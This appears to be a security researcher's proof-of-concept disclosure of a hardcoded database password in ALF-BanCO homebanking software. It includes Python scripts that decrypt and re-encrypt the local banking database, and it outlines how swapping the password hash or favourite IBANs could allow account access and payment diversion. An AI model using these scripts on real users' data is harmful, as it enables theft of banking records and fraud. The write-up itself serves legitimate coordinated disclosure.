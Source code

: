 ## Overview

ALF-BanCo is a homebanking software that manages accounts in various banks, Paypal accounts and many credit cards. The software saves transactions on the PC for as long as the user requires.

## Discovered By

**[Nicolò Tescari](https://www.linkedin.com/in/nicol%C3%B2-tescari-913390131/) ([@ph0nkybit](https://twitter.com/ph0nkybit))** of **[Cybertech](https://www.cybertech.eu/)**

## Proof of Concept (PoC)

The application uses a hardcoded default password to encrypt the local SQLite database containing the user's data. An attacker who gains physical or remote access to the user's machine can exploit this vulnerability to read and modify the data.

The vulnerability was discovered on **ALF-BanCO 8.2.3 (Profi version)**. According to the vendor, it is present up to version **8.2.5**. A patch has been released starting with version **8.3.0**.

At the request of the vendor, the password has been partially obscured.

* * *

After installing the application and configuring our user, the file “**HbDat001.alfdb8**” is created inside the following path: “**C:\\Users\\&lt;username&gt;\\AppData\\Roaming\\ALFBanCo8\\Daten**”.

![db_path](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/db_path.png)

Using ILSpy , the various DLL libraries and application executables inside “**C:\\Program Files (x86)\\ALFBanCo8**” were decompiled.

Looking for the extension "**.alfdb8**" we notice that this is assigned to the “**DB_ENDING**” constant, inside “**AlfOption.dll**”. This suggests that the file is used as a database.

![DB_ENDING](https://github.com/ph0nkybit/proof-of-concepts/blob/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/DB_ENDING.png)

Moreover, the “**IsSqliteDB**” function, inside “**AlfLogin.dll**” returns **true** if the file extension is “**.alfdb8**”, confirming that “**HbDat001.alfdb8”** is a SQLite DB.

![IsSqliteDB](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/IsSqliteDB.png)

As we can see the database cannot be simply opened by an application like DB Browser for SQLite because it is probably encrypted.

![DBBrowser](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/DB_Browser.png)

Within the “**AlfNetDB.dll**” library, we notice the “**OpenSQLite**” function, which takes as arguments two strings, the **db** and the **password**.

![OpenSQLite](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/OpenSQLite.png)

The function is used by the the following constructor, whose variable “**bSQLCrypt**” is set to **true**. This confirms that the database is probably encrypted.

![bSQLCrypt](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/bSQLCrypt.png)

The constructor, is in turn used by the “**SQLCheckPassword**” function, inside “**AlfLogin.dll**”.

As we can see, there’s a **hardcoded password** among the arguments of the constructor.

![SQLCheckPassword](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/SQLCheckPassword.png)

Looking for the password, we can see that it is in fact assigned to the **DB_PWD** constant within the “**Procs”** class of the same DLL.

![DB_PWD](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/DB_PWD.png)

Returning to the “**OpenSQLite**” function, we also note that the “**System.Data.SQLite**” library is being used. This library also provides support for encrypting SQLite databases and as we will see below this type of encryption is actually used on the "**HbDat001.alfdb8**" database.

![System.Data.SQLite](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/System.Data.SQLite.png)

The following Python2 script can be used to decrypt the database.

Copying “**HbDat001.alfdb8**” to a new directory and running the script, creates “**HbDat001.sqlite**” in the same directory (thanks to https://gist.github.com/zuccaro for the original Python code).

```
def decryptSystemDataSQLite(file, password):  

 from Crypto.Hash import SHA  

 from Crypto.Cipher import ARC4 

 from struct import unpack 

 from tempfile import NamedTemporaryFile 

 from shutil import copyfile 

 from os import remove 

 ret = None 

 with open(file,'rb') as f: 

 key = SHA.new(password).digest()\[:16\] 

 header = ARC4.new(key).decrypt(f.read(1024)) 

 if header\[0:15\] == 'SQLite format 3': 

 declared_ps = unpack('>H',header\[16:18\])\[0\] 

 if declared_ps == 1: 

 declared_ps = 65536 

 t = NamedTemporaryFile(delete=False,suffix='.sqlite') 

 f.seek(0) 

 while True: 

 block = f.read(declared_ps) 

 if not block: 

 break 

 t.write(ARC4.new(key).decrypt(block)) 

 t.close() 

 ret = t.name 

 copyfile(ret, file.split('.')\[0\] + '.sqlite') 

 remove(ret) 

 return ret 

decryptSystemDataSQLite('HbDat001.alfdb8','Wbf*************')
```

![example_usage](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/example_usage.png)

Within the database we can find information about the transfers made.

![database_transfers](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/database_transfers.png)

Accounts data.

![database_accounts](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/database_accounts.png)

The username and password hash used by the user to login into the application.

![database_credentials](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/database_credentials.png)

In addition to being able to read user data, an attacker could also copy the “**HbDat001.alfdb8**” file on his machine, decrypt it, change the password hash on the database with one of his choise, re-encrypt the database, download the application and choose to restore from a backup during the initial setup, to access the victim’s data from the application without knowing the user's password.

The following Python2 script can be used to re-encrypt the database.

```
def encryptSystemDataSQLite(file, password): 

 from Crypto.Hash import SHA  

 from Crypto.Cipher import ARC4 

 from struct import unpack 

 from tempfile import NamedTemporaryFile 

 from shutil import copyfile 

 from os import remove 

 ret = None 

 with open(file,'rb') as f: 

 key = SHA.new(password).digest()\[:16\] 

 header = (f.read(1024)) 

 declared_ps = unpack('>H',header\[16:18\])\[0\] 

 if declared_ps == 1: 

 declared_ps = 65536 

 t = NamedTemporaryFile(delete=False,suffix='.alfdb8') 

 f.seek(0) 

 while True: 

 block = f.read(declared_ps) 

 if not block: 

 break

 t.write(ARC4.new(key).encrypt(block)) 

 t.close() 

 ret = t.name 

 copyfile(ret, file.split('.')\[0\] + '.alfdb8') 

 remove(ret) 

 return ret 

encryptSystemDataSQLite('HbDat001.sqlite','Wbf*************')
```
The malicious user could also carry out phishing attacks by modifying IBANs (for example in transactions saved as favorites), re-encrypting the database and replacing it with the user's legitimate one. If when the user send a payment he does not notice that the IBANs of a transaction saved as a favorite have been replaced, he could send the payment to the wrong IBAN.

